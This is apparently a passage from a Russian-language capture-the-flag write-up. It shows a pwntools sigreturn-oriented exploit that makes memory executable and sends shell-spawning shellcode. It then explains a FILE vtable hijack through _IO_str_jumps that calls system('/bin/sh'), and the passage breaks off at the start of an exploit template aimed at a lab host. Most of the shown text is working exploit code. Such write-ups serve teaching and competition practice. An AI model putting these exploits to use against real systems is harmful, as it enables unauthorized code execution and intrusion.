 ```py
vuln_pointer = 0x400088

writable = 0x400000
frame = SigreturnFrame(kernel="amd64")
frame.rax = 10
frame.rdi = writable
frame.rsi = 0x4000
frame.rdx = 7
frame.rsp = vuln_pointer
frame.rip = syscall


pause()
pl = b"A"*32 + p64(vuln_function) + p64(syscall) + bytes(frame)
io.send(pl)
pause()
io.send(b'a' * 15)

frame = SigreturnFrame(kernel="amd64")
frame.rax = 0
frame.rdi = 0
frame.rsi = writable+0x1000
frame.rdx = 0x1000
frame.rsp = vuln_pointer
frame.rip = syscall

pause()
pl = b"A"*32 + p64(vuln_function) + p64(syscall) + bytes(frame)
io.send(pl)
pause()
io.send(b'a' * 15)

pause()
io.send(b'a' * 0x18 + bytes(asm(shellcraft.sh())))


io.interactive()
```

### pwn 20

Приложение перезаписывает указатель `FILE *` на что-то, введенное пользователем, и выполняет `fclose`. Можно создать фейковую структуру, и вместо указателя `vtpr` на `_IO_file_jumps` записать указатель на `_IO_str_jumps`. Тогда вместо `_IO_new_file_finish` вызовется `_IO_str_finish`, в которой выполнится `(((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);`. Мы контролируем и `_free_buffer` и `_IO_buf_base`, значит можно выполнить `system("/bin/sh")`

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 10.10.23.10 --port 2228 notebook
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('notebook')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '10.10.23.10'
port = int(args.PORT or 1337)
```